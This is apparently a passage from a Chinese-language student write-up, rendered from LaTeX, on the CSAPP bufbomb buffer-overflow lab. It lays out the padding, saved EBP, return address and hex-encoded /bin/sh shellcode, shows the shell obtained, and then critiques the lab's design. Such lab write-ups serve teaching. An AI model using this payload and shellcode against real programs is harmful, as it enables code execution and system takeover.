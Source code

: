 \documentclass[a4pper,12pt,onecolumn]{article}
\begin{document}
\texttt{padding + ebp}一共是24Bytes，但是考虑到Shellcode执行阶段可能遇到的 \texttt{push}指令，更好的选择其实是放在 \texttt{shellcode's start addr}的后面。

这时我们的payload就变成了下面的结构：


padding + ebp + shellcode's start addr + shellcode

在网上找一个小一点的Shellcode\footnote{利用int 0x80执行了/bin/sh的一段\href{https://shell-storm.org/shellcode/files/shellcode-841.html}{Shellcode}}，我们就得到了我们最终的Payload：

00000000 00000000 00000000 00000000 00000000 00000000 EBP START\_ADDR 31C9F7E1 B00B5168 2F2F7368 682F6269 6E89E3CD 80

\begin{figure}[h]
    \centering
    \includegraphics[width=1\textwidth]{images/final_sh_shellcode}
    \caption{彩蛋：拿到shell后直接输出`getbuf returned 0xdeadbeef'}
\end{figure}

\begin{lstlisting}[style=DOS]
    # echo getbuf returned 0xdeadbeef
    getbuf returned 0xdeadbeef
\end{lstlisting}

\subsection{Summary}

首先声明一点，这个Assignment在CSAPP第三版中已经没有了。所以 \texttt{bufbomb.c}上面的参考价值不大。尤其是不要按照它上面的编译指令去编译： \texttt{-Og}和 \texttt{-O2}会把程序结构搅乱到根本做不了，没有-fno-stack-protector和-no-pie就是字面意思上的做不了这道题。

然后谈谈我个人对这个Lab(Assignment)的理解：我并不觉得这个Lab(Assignment)很好。第一点就是CSAPP 2nd到CSAPP 3rd编辑的主旋律就是x86tox86-64，整个Lab(Assignment)在设计的时候带着IA32的思维，不难理解为什么放在现在颇有鸡肋之感。第二点是没有难度梯度，思维难度大且调试难度高的题目如果没有checkpoint很容易让人放弃。第三点就是与Buffer Lab冲突，而且Buffer Lab是它的上位替补，这个应该做过Buffer Lab的人都深有体会————深入浅出，让人醍醐灌顶。
\end{document}
